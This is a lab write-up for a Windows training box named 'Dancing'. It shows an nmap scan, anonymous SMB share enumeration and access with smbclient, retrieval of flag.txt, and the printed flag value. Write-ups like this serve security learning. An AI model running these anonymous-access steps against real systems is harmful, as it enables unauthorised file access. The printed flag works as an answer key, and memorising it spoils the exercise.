



# Dancing - Machine Writeup

## Machine Info
- Machine: Dancing
- OS: Windows

---

## 1. Reconnaissance

Ran an nmap service scan against the target to identify active ports and services:

```bash
sdheeraj@fedora:~$ nmap -sV -sC 10.129.215.160
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-08 17:49 IST
Stats: 0:04:32 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 97.83% done; ETC: 17:54 (0:00:06 remaining)
Stats: 0:05:23 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 17:55 (0:00:00 remaining)
Nmap scan report for 10.129.215.160
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-08T16:26:01
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: 3h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.29 seconds
```

Observation: Port 445/tcp is open, running the microsoft-ds service associated with SMB (Server Message Block). Ports 135 and 139 are also open, typical for a Windows Server machine.

---

## 2. Enumeration

SMB (Server Message Block) is used for file sharing and printer sharing across local networks. We can enumerate available shares using the `smbclient` utility with the `-L` flag and `-N` to attempt anonymous/blank password access:

```bash
sdheeraj@fedora:~$ smbclient -L //10.129.215.160/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

Found 4 shares total:
- `ADMIN$` - default administrative share (needs admin rights)
- `C$` - root drive share (needs admin rights)
- `IPC$` - named pipes for IPC
- `WorkShares` - custom disk share, likely the intended path

---

## 3. Exploitation

Attempted to connect to the `WorkShares` share without providing a password using `smbclient`:

```text
sdheeraj@fedora:~$ smbclient //10.129.215.160/WorkShares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 13:52:01 2021
  ..                                  D        0  Mon Mar 29 13:52:01 2021
  Amy.J                               D        0  Mon Mar 29 14:38:24 2021
  James.P                             D        0  Thu Jun  3 14:08:03 2021

                5114111 blocks of size 4096. 1734463 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 14:08:03 2021
  ..                                  D        0  Thu Jun  3 14:08:03 2021
  flag.txt                            A       32  Mon Mar 29 14:56:57 2021

                5114111 blocks of size 4096. 1734446 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> exit
```

Checked the downloaded flag locally:

```bash
sdheeraj@fedora:~$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

---

## 4. Flag

```text
5f61c10dffbc77a704d76016a22f1664
```

Proof of completed machine:



Solving:

